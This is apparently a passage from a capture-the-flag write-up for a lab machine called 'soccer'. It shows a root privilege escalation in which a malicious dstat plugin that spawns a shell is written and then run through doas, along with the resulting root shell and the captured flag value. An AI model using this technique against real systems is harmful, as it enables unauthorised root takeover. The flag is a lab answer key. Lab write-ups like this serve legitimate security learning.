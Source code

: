 Q12: Submit the flag located in root's home directory.
- to get a root shell just need to run the plugin 
- plugin is the suffix of the file e.g. xxx is the plugin name where dstat_xxx.py is the filename
```
player@soccer:~$ echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
player@soccer:~$ ls /usr/local/share/dstat
dstat_xxx.py
player@soccer:~$ doas -n /usr/bin/dstat --xxx 
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of 's documentation for alternative uses
  import imp
# whoami
root
# cat /root/root.txt
a45f06d4b1e6edf25cb11a66066a07ef
```



#### Resources
- sqlmap usage - https://github.com/sqlmapproject/sqlmap/wiki/usage
- nstat - https://gtfobins.github.io/gtfobins/dstat/

#### Lesson Learned

